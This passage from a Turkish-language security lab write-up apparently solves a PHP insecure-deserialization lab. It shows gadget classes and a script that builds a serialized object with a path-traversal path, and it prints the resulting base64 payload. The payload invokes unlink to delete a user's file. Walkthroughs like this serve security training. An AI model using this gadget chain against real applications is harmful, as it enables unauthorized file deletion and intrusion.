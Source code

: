 ```php
class Description {
    public $HTML_DESC;
    public $TEXT_DESC;

    public function __construct() {
        // @Carlos, what were you thinking with these descriptions? Please refactor!
        $this->HTML_DESC = '<p>This product is <blink>SUPER</blink> cool in html</p>';
        $this->TEXT_DESC = 'This product is cool in text';
    }
}

class DefaultMap {
    private $callback;

    public function __construct($callback) {
        $this->callback = $callback;
    }

    public function __get($name) {
        return call_user_func($this->callback, $name);
    }
}

$test = new CustomTemplate('../../../../../../../../../../../../../../../home/carlos/morale.txt');

echo urlencode(
    base64_encode(
        serialize($test)
    )
    );
```

```php
php gadget.php
```

Output:

```php
TzoxNDoiQ3VzdG9tVGVtcGxhdGUiOjI6e3M6MzM6IgBDdXN0b21UZW1wbGF0ZQBkZWZhdWx0X2Rlc2NfdHlwZSI7czo2NzoiLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vaG9tZS9jYXJsb3MvbW9yYWxlLnR4dCI7czoyMDoiAEN1c3RvbVRlbXBsYXRlAGRlc2MiO086MTA6IkRlZmF1bHRNYXAiOjE6e3M6MjA6IgBEZWZhdWx0TWFwAGNhbGxiYWNrIjtzOjY6InVubGluayI7fX0%3D
```

Elde ettiğimiz yeni session bilgisini sistemde kullanınca hedefe ulaşıyoruz.

Ve lab çözülmüş oldu…

![Untitled](0x0D%20e7c75cda4af14d9f8c7d57729ec14f3a/Untitled%2019.png)
